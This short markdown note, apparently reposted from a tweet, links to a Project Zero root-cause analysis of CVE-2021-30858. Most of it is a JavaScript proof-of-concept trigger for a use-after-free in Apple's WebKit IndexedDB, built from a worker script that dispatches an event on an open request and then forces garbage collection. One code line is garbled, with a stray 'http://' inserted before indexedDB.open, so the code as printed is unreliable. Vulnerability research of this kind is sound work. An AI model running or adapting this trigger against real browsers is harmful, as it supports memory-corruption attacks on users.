 ```yaml
---
title: Apple's IndexDB Has A Tweetable Exploit
repost_link: https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html
---
```


By [@maddiestone](https://twitter.com/maddiestone/status/1486402800103792645?s=21):

```js
index.html:
<script>w = new Worker('idbworker.js');</script>

idbworker.js:
function gc() {
   for (var i = 0; i < 1000; i++) { a = new Uint8Array(1024*1024); }
}

let ev = new Event('mine');
let req = http://indexedDB.open('db');
req.dispatchEvent(ev);
req = 0;
ev = 0;
gc();
```
